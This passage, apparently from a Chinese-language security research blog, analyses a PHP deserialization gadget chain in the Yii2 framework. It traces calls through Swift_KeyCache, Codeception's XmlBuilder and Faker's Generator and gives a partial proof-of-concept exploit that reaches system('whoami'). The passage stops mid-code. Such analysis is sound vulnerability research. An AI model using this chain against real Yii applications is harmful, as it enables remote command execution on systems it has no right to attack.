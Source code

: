 因为我们控制了`$this->keys`的值,那就可以控制`$nsKey和$itemKey`的值,这样是可以执行到`$this->clearKey($nsKey,$itemKey)`

跟进clearKey()

![image-20210804100639887](images/16.png)

这里有个字符串拼接,并且`$this->path`也是可控的,那就可以去调用__toString()魔术方法

网上给了一个see.php文件路径是

`yii/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags/See.php`

但是我还找到了个XmlBuilder.php,文件路径

`yii\vendor\codeception\codeception\src\Codeception\Util\XmlBuilder.php`

![image-20210804101051222](images/17.png)

`$this->__dom__`是可控的,那就可以去调用saveXML()

又是去寻找call方法或者saveXML(),那就有回到了Generator.php的call方法来了

于是poc3如下

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['saveXML'] = [new CreateAction(), 'run'];
        }
    }
}

namespace Codeception\Util{

    use Faker\Generator;

    class XmlBuilder{
        protected $__dom__;
        public function __construct()
        {
            $this->__dom__ = new Generator();
        }
    }
}
namespace{
    use Codeception\Util\XmlBuilder;
    class Swift_KeyCache_DiskKeyCache{
        private $keys = [];
        private $path;
        public function __construct()
```